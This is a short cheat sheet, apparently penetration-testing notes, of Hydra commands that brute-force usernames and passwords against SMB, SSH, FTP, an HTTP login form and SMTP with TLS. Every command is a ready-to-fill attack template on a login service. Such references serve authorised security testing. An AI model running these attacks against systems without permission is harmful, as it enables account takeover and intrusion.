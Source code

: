 # Brute force passwords over SMB
```sh
hydra -l [user] -P [path_to_passwords] smb://[ip]
```

# Brute force passwords over SSH
```sh
hydra -L [path_to_usernames] -P [/usr/share/wordlists/fasttrack.txt] ssh://[targe]
```

# Brute force usernames and passwords over FTP
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -u -e snr -s [port] [targe] ftp
```

# Brute force usernames and passwords over HTTP-POST-FORM
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -s [port] [targe] http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information"
# "page:payload:error"
```

# Brute force usernames and passwords over SMTP (TLS)
```sh
hydra -L [path_to_usernames] -P [path_to_passwords] -s 25 -m TLS -v -V smtp://[targe]
```
